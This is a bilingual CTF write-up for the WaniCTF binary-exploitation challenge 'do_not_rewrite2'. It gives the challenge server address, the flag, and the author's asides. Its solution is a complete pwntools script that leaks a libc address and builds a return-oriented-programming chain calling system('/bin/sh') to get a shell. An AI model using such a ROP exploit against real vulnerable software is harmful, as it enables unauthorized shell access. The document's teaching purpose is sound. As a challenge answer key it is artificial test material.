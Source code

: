 ```yaml
---
title: do_not_rewrite2
level: 3
flag: FLAG{r0p_br0d3n_0ur_w0r1d}
writer: manu1
---
```


# do_not_rewrite2

## 問題文

便利な関数が消えてしまいましたね...
ropをしてみましょう

show_flag() has disappeared :<
Let's try ROP

`nc chal-lz56g6.wanictf.org 9005`

---

NOTE: In case the server is down, try the following backup server. 上記のサーバーが正しく動作していない場合は、次のバックアップサーバーを使用してください。

`chal-ywu5dn.wanictf.org`

---

## 解法

do_not_rewriteの続きです。show_flag()がなくなってしまったのでrop(return oriented programming)によってシェルを獲得することを狙います。アラインメント等に気をつけて`system(/bin/sh)`等を呼ぶrop chainを組めばシェルを獲得することができます。


Continuing from do_not_rewrite. Since show_flag() has been removed, we aim to obtain a shell through ROP (return-oriented programming). By carefully aligning and constructing a ROP chain that calls system(/bin/sh) or similar, you can obtain a shell.


solver例は以下のとおりです。

The solver is as follows.
```
from pwn import *

elf = ELF("./chall_patched")
libc = ELF("./libc.so.6")
rop = ROP(libc)

io = process(elf.path)

input("let's go")

# get address of show_flag()
io.recvuntil(b"= ")
addr_printf = io.recvline()[:-1].decode('utf-8')
libc.address = int(addr_printf, 16) - 0x600f0
info(f"libc_base:{hex(libc.address)}")

#exploit
io.recvline()
for i in range(3):
    io.sendlineafter(b": ", b"a")
    io.sendlineafter(b": ", b"1")
    io.sendlineafter(b": ", b"1")


pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0] + libc.address
ret = rop.find_gadget(['ret'])[0] + libc.address

chain = p64(pop_rdi)
chain += p64(next(libc.search(b'/bin/sh')))
chain += p64(ret)
chain += p64(libc.sym["system"])

io.sendlineafter(b": ", chain)
io.sendlineafter(b": ", b"+")
io.sendlineafter(b": ", b"+")

io.recv()
io.interactive()

```

どうでもいい余談: 実はgachi-ropさせるのがdo_not_rewrite3(hard)だったんですが、Wani CTFの1週間前に開催されたCTFで丸かぶりの問題が出題され、無事ボツとなりました...

どうでもいい余談②: 開始25分前まで問題の調整をしてインフラ係を困らせた戦犯は僕です。その危機を救った神はLaikaさんです。


Trivial: Actually, making you perform gachi-rop was the goal of do_not_rewrite3 (hard), but a week before Wani CTF, a problem with the exact same concept appeared in another CTF, so it was scrapped...

 Trivial②: I was the culprit who troubled the infrastructure team by making adjustments to the problem until 25 minutes before the start. The savior who rescued us from that crisis was Laika.